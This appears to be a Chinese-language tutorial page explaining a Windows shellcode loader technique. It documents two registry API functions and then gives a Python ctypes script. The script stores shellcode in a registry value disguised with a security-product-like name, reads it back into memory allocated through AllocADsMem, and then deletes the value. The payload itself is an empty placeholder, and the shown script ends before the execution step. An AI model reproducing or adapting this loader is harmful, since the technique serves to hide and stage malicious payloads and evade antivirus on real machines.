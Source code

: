 ### RegSetValueExA+RegQueryValueExA

- `RegQueryValueExA`：检索与打开的注册表项关联的指定值名称的类型和数据。

```c++
LSTATUS RegQueryValueExA(
  [in]                HKEY    hKey,
  [in, optional]      LPCSTR  lpValueName,
                      LPDWORD lpReserved,
  [out, optional]     LPDWORD lpType,
  [out, optional]     LPBYTE  lpData,
  [in, out, optional] LPDWORD lpcbData
);
```

- `RegSetValueExA`：设置注册表项下指定值的数据类型和类型。

```c++
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

​	利用思路：由于注册表可以存储二进制内容，利用`RegQueryValueExA`函数获取注册表中的内容，同时结合`RegSetValueExA`函数将`shellcode`写进注册表内容中，用`AllocADsMem`或者`ReallocADsMem`分配一块内存，将从注册表读取的内容存到分配的内存中去，然后执行即可。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
AllocADsMem+ReallocADsMem+VirtualProtect+RtlCopyMemory
"""
import ctypes
from ctypes.wintypes import *

shellcode = b''

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.POINTER(ctypes.c_byte)
ptr = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ctypes.windll.Advapi32.RegSetValueExA(
    -2147483647,    # 打开的注册表项的句柄
    "360LogFilePath",   # 要设置的值的名称，如果键中尚不存在具有此名称的值，则函数会将其添加到键中
    None,   # 此参数是保留的，必须为零
    3,  # 要存储的数据所指向的数据类型，REG_BINARY的值为3
    shellcode,  # 要存储的数据
    len(shellcode)  # 要存储的数据所指向的信息的大小
)
# lpcbData是shellcode的长度，这里需要先执行一下RegQueryValueExA来获取一下shellcode长度，然后直接调用RegQueryValueExA来读申请的内存
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(
    -2147483647,    # 打开的注册表项的句柄
    "360LogFilePath",   # 注册表值的名称
    0,  # 此参数是保留的，必须为NULL
    0,  # 指向一个变量的指针，该变量接收一个代码，指示存储在指定值中的数据的类型，如果不需要类型代码，则可以为NULL
    0,  # 指向接收值数据的缓冲区的指针，如果不需要数据，此参数可以为NULL
    ctypes.byref(data_len)   # 指向一个变量的指针，该变量指定lpData参数指向的缓冲区的大小
)
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "360LogFilePath", 0, None, ptr, ctypes.byref(data_len))
# 将写入的注册表删除
ctypes.windll.Advapi32.RegDeleteValueA(-2147483647, "360LogFilePath")
```